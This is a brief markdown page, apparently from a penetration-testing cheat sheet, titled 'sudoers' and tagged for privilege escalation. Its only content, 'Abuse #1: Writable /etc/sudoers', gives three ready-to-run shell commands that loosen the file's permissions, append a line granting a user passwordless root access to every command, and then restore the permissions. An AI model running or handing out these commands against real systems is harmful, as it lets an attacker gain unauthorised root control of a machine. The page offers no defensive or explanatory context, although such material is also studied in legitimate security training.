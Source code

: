 ```yaml
---
title: "sudoers"
date: 2024-7-3
tags: ["sudoers", "sudo", "privesc", "/etc/sudoers"]
---
```


#### Abuse #1: Writable /etc/sudoers

<div>

```console
chmod 600 /etc/sudoers
```

```console
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```console
chmod 440 /etc/sudoers
```

</div>

<br>
